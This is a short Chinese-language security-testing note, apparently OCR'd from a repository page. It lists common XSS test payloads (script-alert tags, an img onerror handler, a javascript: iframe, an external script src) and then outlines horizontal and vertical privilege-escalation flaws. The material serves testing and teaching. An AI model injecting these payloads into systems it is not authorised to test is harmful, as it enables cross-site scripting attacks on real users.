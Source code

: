 # 3. 常用XSS测试payload

- `<script>alert('xss')</script>`

- `http://localhost/x.html#<script>alert('xss')</script>`

- `<script src=http://www.qq.com></script>`

- `"><script>alert(1)</script>`

- `"><img src=x onerror=alert("xss")>`

- `"><iframe src=javascript:alert(1)></iframe>`

- `</script>`

# 4. 常见越权漏洞及解决方案

## 4.1 常见越权分类

1. 平行越权

    场景1：普通用户A可以访问到普通用户B的数据

    场景2：用户可以通过修改请求链接或参数，访问到其它本应无权访问的数据

2. 上下越权

    普通用户可以执行管理员的操作

## 4.2 场景1 ：对get请求中显式的URL更改进行越权

![image-20190809165600312](media/image-20190809165600312.png)
